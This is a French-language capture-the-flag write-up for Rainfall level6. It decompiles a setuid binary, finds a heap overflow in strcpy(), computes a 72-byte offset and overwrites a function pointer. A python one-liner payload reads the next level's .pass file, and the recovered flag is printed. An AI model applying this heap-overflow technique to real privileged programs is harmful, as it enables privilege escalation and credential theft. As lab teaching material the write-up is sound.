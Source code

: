 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
/home/user/level6
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level6 :

```bash
$ ./level6
Segmentation fault (core dumped)
$ ./level6 da
Nope
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=bf99b17b-f29d-4c51-9cac-5055972d80ea) et en extrait une version probable du code :

```c
void n()
{
    system("/bin/cat /home/user/level7/.pass");
}

void m()
{
    puts("Nope");
}

int main(int argc, char **argv)
{
    int *buffer;
    void (**funcptr)(void);

    buffer = (char *)malloc(64);
    funcptr = (void (**)(void))malloc(4);

    *funcptr = m;
    strcpy(buffer, argv[1]);
    (*funcptr)();
}
```

Je peux donc maintenant me concentrer sur les vulnérabilités que ce code présente. Ici, cela ressemble au premier level de `rainfall`, la particularité étant que la vulnérabilité ici semble être `strcpy()`. Ce dernier ne prend pas de taille limite, et il utilise l'argument passé au binaire pour la copie.

Je me penche donc sur ce point d'entrée possible.
Je note également qu'il n'est pas question ici de la `stack`, mais de la `heap` puisque `malloc()` est utilisé.

Etant donné que la string est alloué sur la `heap` mais également le pointeur de pointeur sur function, alors je peux exploiter une vulnérabilité donc le but serait d'overflow la `heap` afin de ré-écrire où le pointeur de pointeur sur function pointe.

Ici, il s'agirait d'overflow `string` au moment de `strcpy()` en passant un argument `argv[1]` trop grand pour `string`.
Cet overflow aura pour but de ré-écrire ce sur quoi les 4 bytes alloué au pointeur sur fonction pointeront donc désormais.

Afin de construire un payload infecté, il me faut calculer la distance entre ces deux allocations sur la `heap`. 

J'utilise `ltrace` (affiche les appels à des librairies partagées) pour simplifier ce processus :

```bash
$ ltrace ./level6 da
__libc_start_main(0x804847c, 2, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                  = 0x0804a008 <-- ici
malloc(4)                   = 0x0804a050 <-- ici
strcpy(0x0804a008, "da")    = 0x0804a008
puts("Nope"Nope
)                           = 5
+++ exited (status 5) +++
```

Je peux calculer la distance : `0x0804a050 - 0x0804a008 = 0x48 = 72` bytes.

Il faut donc que mon payload remplisse le `buffer` de 64 bytes, puis 8 bytes de bruit pour atteindre 72 et que les prochaines écriture ré-écrive sur l'adresse du pointeur sur fonction.

Je cherche maintenant l'adresse de la fonction `n()` avec `gdb` :

```h
$ gdb ./level6
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp <-------------- ici
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

L'adresse de `n()` est : `0x08048454`.

Il ne me reste donc plus qu'à construire le payload.
Ce dernier aura pour but de remplir le buffer alloué dans la `heap` pour string, ajouter du bruit jusqu'atteindre l'endroit dans la `heap` où est écrit l'adresse de ce sur quoi pointe le pointeur sur fonction (pour le moment `m()`) et remplacer cette dernière par l'adresse de `n()`.

De manière similaire au précedents level, voici le payload qui exploite cette vulnérabilité :

```python
python -c 'print("\x90" * 72 + "\x08\x04\x84\x54"[::-1])'
```

- Padding de 72 instructions `NOP` (no operations)
- L'adresse de `n()`

J'essaye ce payload :

```bash
$ ./level6 `python -c 'print("\x90" * 72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

